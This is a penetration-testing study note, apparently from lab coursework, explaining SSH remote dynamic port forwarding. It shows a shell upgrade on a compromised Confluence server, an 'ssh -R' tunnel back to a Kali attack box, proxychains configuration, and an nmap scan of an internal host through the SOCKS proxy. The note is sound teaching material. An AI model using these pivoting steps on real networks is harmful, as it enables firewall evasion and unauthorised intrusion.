

---
aliases:
  - remote dynamic port forwarding
  - SSH remote dynamic port forwarding
  - remote dynamic port forward
---
# Remote Dynamic Port Forwarding
Just like with [local port forwarding](local-port-forwarding.md), [SSH remote port forwarding](remote-port-forwarding.md) is limited in that *the connection can only be made with a single host* per [SSH](../../../networking/protocols/SSH.md) connection. For situations where we *can't create a listening port on the compromised machine* (dur to [firewalls](../../../cybersecurity/defense/firewalls.md) most likely), and we *want to multiple connections* we can use remote dynamic port forwarding. 

Remote dynamic port forwarding is similar to [dynamic port forwarding](dynamic-port-forwarding.md) but the SSH client and server are in the *remote port forwarding configuration*. In other words,  the listening port is *opened on the SSH server* and the *SSH client forwards the traffic* to the destination hosts. Additionally, remote dynamic port forwarding takes advantage of the [SOCKS](dynamic-port-forwarding.md) protocol (just like local dynamic port forwarding does). 

## Scenario
Assume the same scenario as in the other port forwarding notes in this directory (and pictured above). However, this time we've found *another server in the [DMZ](../../../networking/design-structure/DMZ.md)* (same [subnetting](../../../PNPT/PEH/networking/subnetting.md) as `CONFLUENCE01`) called `MULTISERVER03`.

The firewall in place prevents us from connecting to anything other than port 8090 on `CONFLUENCE01` from our Kali attack box, but we want to enumerate `MULTISERVER03` from Kali. We can use remote dynamic port forwarding via the [`ssh` command](../../../CLI-tools/ssh-command.md) to create the following remote dynamic port forwarding setup:

### Compromising `CONFLUENCE01`
Assume we've established a [revshell](../../../cybersecurity/TTPs/exploitation/rev-shell.md) on `CON01` via the same CVE as before ([_CVE-2022-26134_](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html)). Once we've got the revshell, the SSH session will be initiated here and connect back to our Kali machine. 

Remember to establish a [TTY](../../../computers/linux/terminal-tty-shell.md) first:
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### `ssh -R`
To setup a remote dynamic port forwarding connection with OpenSSH we use the `-R` flag. This is the *same flag* as setting up a regular (non-dynamic) remote port forwarding connection, but the difference is *we pass a single socket to `-R` instead of two*:
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.118.4

Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```
The socket we give to `ssh -R` is port `9998` on our Kali machine. OpenSSH knows that when you use `-R` with just a port number and then follow with `<username>@<IP address>` that the port is in reference to a port on the target host for the SSH connection.

When we issue this command, OpenSSH will establish an SSH connection back to our Kali box and then *bind a SOCKS proxy to port 9998 on our [loopback](../../../networking/routing/loopback.md) interface*.  
### Proxychains
Now that the SOCKS proxy is bound, we can use [Proxychains](dynamic-port-forwarding.md#Proxychains) (just like in regular dynamic port forwarding) to tunnel traffic over the SOCKS port. First, we have to edit `/etc/proxychains4.conf` *on our Kali machine* again. Then end of it should read:
```bash
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```
#### Nmap Over SOCKS via Proxychains
Now we can run whatever command we want to scan `MULTISERVER03` with (as long as it can handle the SOCKS protocol):
```bash
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 06:25 EDT
Initiating Connect Scan at 06:25
Scanning 10.4.50.64 [20 ports]
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.64:22 <--socket error or timeout!
...
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.64:135  ...  OK
Discovered open port 135/tcp on 10.4.50.64
Completed Connect Scan at 06:28, 210.26s elapsed (20 total ports)
Nmap scan report for 10.4.50.64
Host is up, received user-set (6.7s latency).
Scanned at 2022-07-20 06:25:25 EDT for 210s

PORT     STATE  SERVICE       REASON
21/tcp   closed ftp           conn-refused
22/tcp   closed ssh           conn-refused
23/tcp   closed telnet        conn-refused
25/tcp   closed smtp          conn-refused
53/tcp   closed domain        conn-refused
80/tcp   open   http          syn-ack
110/tcp  closed pop3          conn-refused
111/tcp  closed rpcbind       conn-refused
135/tcp  open   msrpc         syn-ack
139/tcp  closed netbios-ssn   conn-refused
143/tcp  closed imap          conn-refused
443/tcp  closed https         conn-refused
445/tcp  closed microsoft-ds  conn-refused
993/tcp  closed imaps         conn-refused
995/tcp  closed pop3s         conn-refused
1723/tcp closed pptp          conn-refused
3306/tcp closed mysql         conn-refused
3389/tcp open   ms-wbt-server syn-ack
5900/tcp closed vnc           conn-refused
8080/tcp closed http-proxy    conn-refused

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 210.31 seconds
```

> [!Resources]
> - [_SOCKS_](https://en.wikipedia.org/wiki/SOCKS)
> - [_Proxychains_](https://github.com/rofl0r/proxychains-ng)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.